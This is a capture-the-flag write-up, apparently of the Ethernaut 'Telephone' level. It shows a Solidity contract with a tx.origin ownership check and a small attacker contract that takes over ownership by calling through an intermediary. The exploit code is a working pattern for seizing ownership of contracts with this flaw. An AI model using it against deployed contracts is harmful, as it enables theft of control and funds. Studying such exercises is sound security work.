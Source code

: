 # Task

Claim ownership of the contract below to complete this level.

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

Lets get the contract address and contract abi

![image](https://github.com/user-attachments/assets/c1fe8f04-847f-4879-8277-ad1196e20e8d)

First, lets check the owner of this contract

![image](https://github.com/user-attachments/assets/bf95721a-fc87-400a-9d1a-ed3cce80fe07)

That's the current owner of the contract

Below is the solve contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

import "./telephone.sol";

contract TelephoneHack {
    Telephone telecontract;

    constructor(address _address) {
        telecontract = Telephone(_address);
    }

    function hackContract(address _address) public{ 
        telecontract.changeOwner(_address);
    }
    
}
```
Lets deploy this using forge

![image](https://github.com/user-attachments/assets/1a28c0f3-036d-4412-ae4d-fcb43f5121ba)

Since ownership can be transferred if `tx.origin != msg.sender` we can call the `hackContract` function and pass in our address


![image](https://github.com/user-attachments/assets/94f13cec-4814-49dd-a905-0cf83deb3009)

Checking the owner of the contract again

![image](https://github.com/user-attachments/assets/f7be04f3-be92-4371-b83a-bcde020e9291)

We already became the owner of the contract

You can go ahead to submit the instance

![image](https://github.com/user-attachments/assets/e95c2118-0567-4d69-aa7e-c5175c2a553c)

We have successfully completed this level

-------------------------

Till Next Time :xD






































